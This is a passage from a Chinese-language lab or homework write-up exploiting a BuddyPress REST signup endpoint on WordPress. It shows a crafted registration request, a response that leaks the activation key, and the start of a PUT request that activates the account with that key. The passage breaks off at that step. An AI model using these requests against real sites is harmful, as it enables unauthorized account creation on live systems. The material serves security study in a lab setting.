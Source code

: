         Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
        Content-Type: application/json; charset=UTF-8
        Content-Length: 112

        {"user_login": "attcker1", "user_email": "attacker1@163.com", "user_name": "attacker1", "password": "attacker1"}
        ```

    - 替换 `Host` 为自己的 IP 和端口。
    - 得到回显:
        ```
         HTTP/1.1 200 OK
         Date: Thu, 22 May 2025 03:48:36 GMT
         Server: Apache/2.4.18 (Ubuntu)
         X-Robots-Tag: noindex
         Link: <http://192.168.20.12:10459/wp-json/>; rel="https://api.w.org/"
         X-Content-Type-Options: nosniff
         Access-Control-Expose-Headers: X-WP-Total, X-WP-TotalPages, Link
         Access-Control-Allow-Headers: Authorization, X-WP-Nonce, Content-Disposition, Content-MD5, Content-Type
         Allow: POST
         Content-Length: 280
         Content-Type: application/json; charset=UTF-8
         [{"id":3,"user_login":"attcker1","registered":"2025-05-22T03:48:36","user_name":"attacker1","activation_key":"aoM0svmO72kVVPbNxYadAKifjIUuYqj8","user_email":"attacker1@163.com","date_sent":"2025-05-22T03:48:36","count_sent":1,"meta":{"field_1":"attacker1","profile_field_ids":1}}]
         ```
2. **提取激活密钥**
   - 发送请求后，服务器会返回一个响应包，其中包含 `activation_key`。
   ![1747885758997](image/homework/1747885758997.png)
   `activation_key` : `aoM0svmO72kVVPbNxYadAKifjIUuYqj8`
   - 提取 `activation_key`，用于后续的激活操作。

3. **构造激活请求**
   - 使用提取的 `activation_key` 构造 PUT 请求，发送到 `/wp-json/buddypress/v1/signup/activate/<activation_key>`。